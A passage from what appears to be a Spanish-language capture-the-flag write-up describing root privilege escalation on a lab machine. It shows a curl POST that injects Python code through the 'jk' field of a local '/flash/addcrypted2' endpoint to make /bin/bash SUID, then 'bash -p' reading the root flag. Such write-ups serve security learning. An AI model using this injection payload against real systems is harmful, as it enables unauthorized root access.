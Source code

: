 ![bash no SUID](no-suid.png)

El payload debemos ponerlo en el campo `jk` de la petición.

```bash
sau@pc:~$ curl -i -s -k -X 'POST' -H 'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary 'package=xxx&crypted=AAAA&jk=pyimport%20os%3Bos%2Esystem%28%22chmod%20u%2Bs%20%2Fbin%2Fbash%22%29%3B&passwords=aaaa' 'http://127.0.0.1:8000/flash/addcrypted2'
```

Ya es **SUID** la `bash`. Ahora solo ejecutamos `bash -p` para obtener una consola como el usuario propietario que es **root**.

![bash SUID](suid.png)

```bash
sau@pc:~$ bash -p
bash-5.0# cat /root/root.txt
bda**************************681
```